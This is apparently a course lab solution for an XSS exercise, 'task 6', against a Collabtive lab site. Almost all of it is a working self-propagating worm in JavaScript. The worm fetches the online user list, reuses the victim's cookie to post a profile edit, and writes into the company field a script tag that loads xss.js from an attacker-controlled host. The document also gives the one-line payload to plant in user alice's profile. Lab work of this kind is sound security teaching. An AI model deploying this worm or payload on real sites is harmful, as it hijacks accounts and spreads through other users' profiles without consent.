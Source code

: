 # XSS solutions

### task 6

Create xss.js file in csrflabattacker root directory.

```javascript
var on=new Ajax.Updater("onlinelist","manageuser.php?action=onlinelist",
    {method:'get',
    onSuccess:function(transport){
        username=transport.responseText.replace(/<\/?[^>]+(>|$)/g, "").trim();
        var ajax=new XMLHttpRequest();
        ajax.open('POST','http://www.xsslabcollabtive.com/manageuser.php?action=edit',true);
        ajax.setRequestHeader('Host','www.xsslabcollabtive.com');
        ajax.setRequestHeader('Keep-Alive','300');
        ajax.setRequestHeader('Connection','keep-alive');
        ajax.setRequestHeader('Cookie',document.cookie);
        ajax.setRequestHeader('Content-Type','application/x-www-form-urlencoded');
        var content='name=' + username + '&company=<script src="http://www.csrflabattacker.com/xss.js"></script>&email=' + username + '.xss@email.com' ;
        ajax.send(content);
    }});
```

add blow line in company field of user alice's profile:
```html
<script src="http://www.csrflabattacker.com/xss.js"></script>
```

